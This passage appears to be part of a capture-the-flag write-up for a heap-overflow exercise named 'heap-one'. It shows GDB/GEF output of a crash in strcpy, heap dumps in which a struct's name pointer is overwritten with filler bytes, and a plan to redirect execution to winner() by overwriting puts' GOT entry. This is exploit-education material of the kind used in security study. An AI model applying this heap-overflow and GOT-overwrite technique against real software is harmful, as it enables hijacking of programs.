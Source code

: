 ```c
0xffffd6b4│+0x0010: 0xffffd8db  →  "CCCCDDDD"
0xffffd6b8│+0x0014: 0x00000008
0xffffd6bc│+0x0018: 0x00000008
0xffffd6c0│+0x001c: 0xf7f84527  →  <strcpy+7> add ebx, 0x76ad9
─────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0xf7f840d3 <stpcpy+51>      add    eax, 0x1
   0xf7f840d6 <stpcpy+54>      movzx  ecx, BYTE PTR [edx]
   0xf7f840d9 <stpcpy+57>      test   cl, cl
 → 0xf7f840db <stpcpy+59>      mov    BYTE PTR [eax], cl
   0xf7f840dd <stpcpy+61>      jne    0xf7f840d0 <stpcpy+48>
   0xf7f840df <stpcpy+63>      pop    ebx
   0xf7f840e0 <stpcpy+64>      pop    esi
   0xf7f840e1 <stpcpy+65>      ret
   0xf7f840e2 <stpcpy+66>      lea    esi, [esi+0x0]
─────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "heap-one", stopped, reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0xf7f840db → stpcpy()
[#1] 0xf7f8453e → strcpy()
────────────────────────────────────────────────────────────────────────────────────────────────────
```

Now lets view our heap values,

```c
(gdb) x/20w 0xf7e69008
v2->priority -----          ----- address for i2->name to write
                 ↓          ↓
0xf7e69008:	0x00000001	0xf7e69018	0x00000000	0x00000011
0xf7e69018:	0x41414141	0x41414141	0x41414141	0x41414141

(overwritten)               (overwritten)
v2->priority -----          ----- address for i2->name to write
                 ↓          ↓
0xf7e69028:	0x41414141	0x42424242	0x00000000	0x00000011
0xf7e69038:	0x00000000	0x00000000	0x00000000	0x000fffc1
0xf7e69048:	0x00000000	0x00000000	0x00000000	0x00000000
```

Its time to hijack our ```winner()``` function by GOT overwrite

We need all neccessary functions to place our data into heap, except ```puts()```,

Lets get the GOT address of ```puts()```,

```c
(gdb) x/3i 0x80485b0
   0x80485b0 <puts@plt>:	jmp    DWORD PTR ds:0x804c140
   0x80485b6 <puts@plt+6>:	push   0x28
   0x80485bb <puts@plt+11>:	jmp    0x8048550
```

